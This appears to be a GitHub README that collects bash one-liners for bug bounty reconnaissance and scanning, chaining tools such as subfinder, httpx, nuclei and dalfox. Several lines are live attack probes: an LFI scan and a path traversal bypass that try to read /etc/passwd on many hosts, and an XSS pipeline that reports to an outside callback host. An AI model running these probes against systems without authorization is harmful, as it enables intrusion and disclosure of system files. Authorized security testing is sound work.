 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
```
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
```
Find high-value subdomains using keyword patterns.

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
```
Query BufferOver's DNS database for historical records.

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
```
Extract subdomains from SSL certificates.

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
```
Detect dangling DNS records for potential takeover.

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
```
Automated LFI payload testing with parallel requests.

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
```
Test for LFI bypasses using directory traversal.


## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
```
Full-chain XSS discovery pipeline with active probing.

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
```
Find IPs associated with target's SSL certificates.

## Tools Used
- Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
- ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
- dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
- Naabu	Port scanner	https://github.com/projectdiscovery/naabu
- HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
- Katana	Crawler	https://github.com/projectdiscovery/katana
- Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
- Gau	URL collector	https://github.com/lc/gau
- Dalfox	XSS scanner	https://github.com/hahwul/dalfox
- Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

- https://x.com/TheMsterDoctor1/status/1905471835128373665
- https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file
